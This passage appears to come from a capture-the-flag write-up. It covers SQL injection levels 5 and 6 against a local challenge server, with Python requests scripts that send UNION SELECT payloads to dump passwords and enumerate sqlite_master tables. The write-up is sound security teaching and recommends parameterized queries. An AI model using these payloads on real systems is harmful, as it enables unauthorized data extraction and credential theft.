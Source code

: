 **Tools Used:**  
- Python `requests` library for automating login attempts

**Key Lessons Learned:**  
- String interpolation in SQL queries is highly dangerous.
- Always use parameterized queries to prevent SQL injection.

---

## Level 5: SQL Injection (Data Extraction)

**Problem Statement:**  
Extract sensitive data from the database using SQL injection in a search parameter.

**Approach:**  
- Exploited the `LIKE` clause in the query parameter to enumerate users.
- Used a `UNION SELECT` payload to extract the flag from the database.

**Example Exploit:**
```python
# Enumerate users
url = "http://challenge.localhost:80"
data = {"query": "f%"}
response = rq.post(url, params=data)
print(response.text)

# Extract flag with UNION
url = "http://challenge.localhost:80"
data = {'query': '" UNION SELECT password FROM users --'}
response = rq.post(url, params=data)
print(response.text)
```

**Tools Used:**  
- Python `requests` library

**Key Lessons Learned:**  
- Even seemingly harmless search features can be vulnerable to SQL injection.
- UNION-based SQL injection can be used to extract arbitrary data.

---

## Level 6: SQL Injection with Unknown Table Name

**Problem Statement:**  
Extract the flag from a table with an unknown, dynamically generated name.

**Approach:**  
- Used SQL injection to enumerate table names via `sqlite_master`.
- Once the table name was discovered, used another injection to extract the flag.

**Example Exploit:**
```python
# Discover table name
url = "http://challenge.localhost:80"
data = {'query': ' " UNION SELECT tbl_name FROM sqlite_master --'}
response = rq.post(url, params=data)
print(response.text)

# Extract flag from discovered table
url = "http://challenge.localhost:80"
data = {'query': ' " UNION SELECT password FROM table6108655952227085405 ; --'}
response = rq.post(url, params=data)
print(response.text)
```

